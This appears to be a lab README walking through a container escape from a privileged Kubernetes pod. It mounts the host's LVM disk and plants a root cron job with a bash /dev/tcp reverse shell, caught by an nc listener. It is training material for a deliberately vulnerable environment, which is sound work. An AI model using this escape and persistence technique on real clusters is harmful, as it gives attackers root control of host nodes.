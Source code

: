 # Privileged Pod

This scenario simulates a pod that was configured as privileged. You can connect to this pod using SSH:

```bash
ssh pwned@10.10.20.2 -p 30025 # Password: pwned
```

Privileged containers have a lot of control over the host they run on. Practically, privileged containers can do almost every action that can be performed directly on the host so scaping to the Kubernetes worker is possible. In order to abuse this, root access to the pod container is needed so the SSH pod provided allows the pwned user to use `sudo`.

How you know that a container is privileged? Well you could use `amicontained` to see that you have all the capabilities. Also, since the container has access to all the devices attached to the host system you would see a lot of devices under the `/dev` directory instead of just a couple of them:

```bash
wget https://github.com/genuinetools/amicontained/releases/download/v0.4.9/amicontained-linux-amd64 -O amicontained
chmod u+x amicontained
./amicontained
```

As said in another scenarios, you can continue reading for a guided exploitation or research for yourself!

## Escape time!

Now you know how dangerous these kind of containers are let's escape from our SSH pod. The approach in this case is to target the host filesystem, remember we have access to all the host's attached devices, disks included!

> [!NOTE]
> By default, seccomp feature is disabled for Kubernetes clusters but hardening guides usually include its activation to limit the system calls a container can use. In this scenario, seccomp is disabled but you may find environments where exploiting privileged containers is not as easy because of this security measure.

A simple `df` command should be enouth to identify our target:
```
ssh-pod-7954b5fbd4-b2hxl:/# df -h
Filesystem                         Size  Used Avail Use% Mounted on
overlay                             62G  7.0G   52G  12% /
tmpfs                               64M     0   64M   0% /dev
shm                                 64M     0   64M   0% /dev/shm
tmpfs                              190M  2.1M  188M   2% /etc/hostname
/dev/mapper/ubuntu--vg-ubuntu--lv   62G  7.0G   52G  12% /etc/hosts
tmpfs                              1.4G   12K  1.4G   1% /run/secrets/kubernetes.io/serviceaccount
```

The interesting one is `/dev/mapper/ubuntu--vg-ubuntu--lv`, that is where the underneth worker node filesystem is. 

Hyper-V uses LVM and that is why it has that weird name. Normally, the device is something like `/dev/sda1` and you can just mount it wherever you want but in this case, since it is a LVM volume, we only have information about the symolic link name that points to the real block file. Look for `/dev/dm-*` files, these represent LVM logical volumes, in this scenario only one will exists so just mount it:

```bash
sudo mkdir /mnt/host_node
sudo mount /dev/dm-0 /mnt/host_node
```

Now you have full access to the node filesystem! From here there are plenty of options to get RCE into the node, in this case a reverse shell will be executed every minute configuring a cron job in `/etc/crontab`:

```
* * * * * root bash -c "bash -i >& /dev/tcp/192.168.*.*/8000 0>&1"
```

Preparing a listener is enough to get a shell to the pod worker node as root:

```
anthares101@WSL:~$ nc -lnvp 8000

Listening on 0.0.0.0 8000
Connection received on 192.168.*.* 56776
bash: cannot set terminal process group (12229): Inappropriate ioctl for device
bash: no job control in this shell
root@aramis:~#
```

## References

- https://kubernetes.io/docs/tasks/configure-pod-container/security-context/
- https://bishopfox.com/blog/kubernetes-pod-privilege-escalation
- https://www.cncf.io/blog/2020/10/16/hack-my-mis-configured-kubernetes-privileged-pods/
